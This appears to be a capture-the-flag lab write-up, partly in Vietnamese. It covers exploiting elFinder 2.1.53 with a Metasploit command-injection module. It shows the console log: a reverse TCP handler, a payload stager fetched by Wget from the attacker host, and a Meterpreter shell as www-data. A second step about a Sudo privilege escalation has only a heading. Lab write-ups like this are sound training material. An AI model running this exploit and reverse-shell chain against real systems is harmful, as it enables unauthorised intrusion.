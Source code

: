 + 1  Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

Để ý thằng này dùng `connector php` nên chọn module phù hợp.

![](images/4.png)

```zsh
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.53
[*] Uploading file KpRfe.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive tHrUK.zip
[+] Archive was successfully created!
[*] Using URL: http://10.10.14.174:8080/3tfTm8ze9RE
[*] Client 10.129.194.204 (Wget/1.20.3 (linux-gnu)) requested /3tfTm8ze9RE
[*] Sending payload to 10.129.194.204 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  52.21% done (59/113 bytes)
[*] Command Stager progress -  71.68% done (81/113 bytes)
[*] Sending stage (1017704 bytes) to 10.129.194.204
[+] Deleted KpRfe.txt
[+] Deleted tHrUK.zip
[*] Meterpreter session 1 opened (10.10.14.174:4444 -> 10.129.194.204:38568) at 2025-04-22 05:01:09 -0400
[*] Command Stager progress -  83.19% done (94/113 bytes)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.
meterpreter > getuid
Server username: www-data
meterpreter > 
```

+ 2  The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

![](images/5.png)
